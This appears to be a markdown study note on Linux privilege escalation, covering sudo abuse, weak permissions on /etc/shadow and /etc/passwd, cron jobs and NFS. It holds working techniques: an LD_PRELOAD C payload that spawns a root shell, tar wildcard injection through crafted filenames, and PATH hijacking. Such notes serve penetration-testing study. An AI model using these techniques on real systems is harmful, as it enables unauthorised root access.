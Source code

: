 # Privilege Escalation Tecniques

## Kernel Exploits
Kernel has the complete control over the OS. After enumerating kernel version with:

```console
$ uname -a
Linux kali 6.3.0-kali1-arm64 #1 SMP Debian 6.3.7-1kali1 (2023-06-29) aarch64 GNU/Linux
```

we can then find exploits with searchsploit or online


## Service Exploits
Services are programs that start with the OS boot and run in background. A service could be vulnerable or could run as root. We can show all processes running as root with:

```console
$ ps aux | grep "^root"

$ PROGRAM -v
```

## Weak File Permissions
We can take advantage from files with too weak permissions. For example:
* `/etc/shadow`: not readable by default (except from root). If readable, we can try to crack the hash. If writable, we can replace the hash with a well-known one
* `/etc/passwd`: historically contained hash (before /etc/shadow). If writable we can enter a known hash after the second semicolumn, it will be used as password. If we can only append in that file, we can insert a new user with the UID=0
* `/`, `/tmp`, `/var/backups`, `/.ssh` or other home folders could inlude insecure backups in which the user may have done backup of important sensitive files

## Sudo 
Sudo lets users run programs with privileges of other users simply adding his password: root by default, other users with -u flag.

Here a list of "legal" ways to escalate privileges:

```console
sudo su
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```

`sudo -l` instead, can be used to list which programs can be executed with sudo by the current user and may have the possibility to run it with NOPASSWD. This info are contained in `/etc/sudoers`
We can use these programs to perform shell escape sequence or to abuse intended functionality such as read files

### LD_PRELOAD
`LD_PRELOAD` is a function that allows any program to use shared libraries. This blog post will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
4. The C code will simply spawn a root shell and can be written as follows;

```console
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```


### LD_LIBRARY_PATH


## Cron Jobs
Cron Jobs are programs the user can schedule to run at specific times/intervals. They run with the security level of the user who owns them. If the Cron Job (or a program called during the schedule) can be modified or replaced (using $PATH), we can perform privilege escalation.

### PATH Env. Variable
If a vulnerable program does not use absolute path, we can modify the environment variable PATH, appending a folder in which we will create our malicious program with the same name.
Using the example below we tell to the system to prefer /tmp folder to the other ones

```console
$ export PATH=/tmp:$PATH
```

### Wildcards
Suppose of a job or weak permission program that executes this line.

```console
$ tar czf /tmp/backup.tar.gz *
```

From GTFobins, we know that we can execute a shell with the following command, so we can create filenames that match complex options
```console
$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
```

## SUID / SGID
- string
- strace
- ltrace

## Passwords
Weak password storage end password re-use can be an easy way to escalate privileges.
We can check for:
* History Files, searching for commands run with credentials taken as input
* Config Files, searching for stored password, trying password re-use
* SSH keys, if accessible and stored insecurely we can login with ssh



# NFS
NFS, Network File System, is a distributed file system. Remote users can mount shares and work on it.
Created files imherit the remote user's id and group. To prevent root permissions, NFS has Root Squashing: root permissions are replaced with user nobody and group nogroup.

Using `/etc/exports` we can disable `no_root_squash` option, maintanining root permissions and SUID

```console
# Displays lists to be mount
$ showmount -e TARGET

# Mount a share
mount -o rw,vers=2 TARGET_IP:/tmp LOCAL_FOLDER
```
